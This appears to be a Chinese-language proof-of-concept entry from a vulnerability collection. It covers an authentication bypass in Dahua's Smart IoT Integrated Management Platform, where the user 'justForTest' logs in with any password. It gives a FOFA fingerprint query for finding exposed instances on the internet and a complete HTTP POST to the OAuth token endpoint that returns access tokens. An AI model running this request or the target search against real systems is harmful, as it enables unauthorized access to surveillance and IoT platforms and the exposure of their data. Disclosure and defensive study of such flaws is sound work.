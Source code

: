## 大华智能物联综合管理平台justForTest用户登录漏洞
浙江大华技术股份有限公司智能物联综合管理平台 用户登录接口/evo-apigw/evo-oauth/oauth/token存在漏洞，使用用户justForTest/任意密码即可成功登录平台，造成信息泄露。

## fofa
```
icon_hash="-1935899595"body="*客户端会小于800*"
```

## poc
```
POST /evo-apigw/evo-oauth/oauth/token HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1866.237 Safari/537.36
Content-Length: 109
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close
 
username=justForTest&password=1&grant_type=password&client_id=web_client&client_secret=web_client&public_key=
```
出现各种token证明漏洞存在

![image](https://github.com/wy876/POC/assets/139549762/5f1c189e-2d92-4d73-a6c2-8593367c74bb)
